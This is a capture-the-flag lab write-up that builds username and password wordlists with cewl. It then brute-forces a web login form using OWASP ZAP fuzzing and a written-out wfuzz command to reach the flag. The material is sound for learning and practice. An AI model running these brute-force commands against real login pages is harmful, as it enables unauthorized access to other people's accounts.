



# baby, it's CeWLd outside

## Solution
- Hit "Start Machine" and connect at http://IP and notice the login page at http://IP/login.php
- Generate a username list with cewl considering the team members at http://IP/team.php:
```bash
cewl -d 0 -m 5 -w usernames.txt http://IP/team.php --lowercase
```
- Generate a password list with cewl:
```bash
cewl -d 2 -m 5 -w passwords.txt http://IP --with-numbers
```

- Open Owasp ZAP, capture the login request and run a fuzz attack on both "username" and "password" parameters using the wordlists previously generated.



- Sort the fuzzing considering the "Code" and notice a 302 response.



- Login and read the flag from the email.



- wfuzz can also be used to brute force the login:
```bash
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://IP/login.php -d "username=FUZZ&password=FUZ2Z"
```
